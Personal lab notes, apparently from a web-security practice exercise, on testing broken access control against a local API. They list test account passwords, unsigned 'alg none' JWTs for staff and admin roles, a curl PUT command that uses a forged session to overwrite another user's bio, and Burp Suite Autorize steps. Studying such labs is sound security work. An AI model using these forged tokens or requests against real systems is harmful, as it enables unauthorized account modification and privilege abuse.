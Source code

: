  

![[image 2 10.png|image 2 10.png]]

  

```Markdown
## accounts : 
	1. jeremy:cheesecake : eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=.
	2. jessamy:tiramisu  : eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9.
	

## COMMMAND :

	- curl -X PUT -x 127.0.0.1:8080 "Content-Type: application/json" -b "session=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=.~" -d '{"username":"jermey", "bio":"NEW HACKED BIO in /api/v2/account.php"}' http://localhost/labs/api/v2/account.php
	 
## BURP SUITE PRO : 

	- in Autorise tab, add jessamy's JWT as session=JWT	 
	 	 
```

![[image 3 10.png|image 3 10.png]]

  

```Markdown

	- and execute that command,
```

![[image 4 7.png|image 4 7.png]]

- Then check in you Autorize tab.

![[image 5 6.png|image 5 6.png]]

  

> To verify session token for use account2.php endpoints.

  

![[image 6 6.png|image 6 6.png]]

![[image 7 6.png|image 7 6.png]]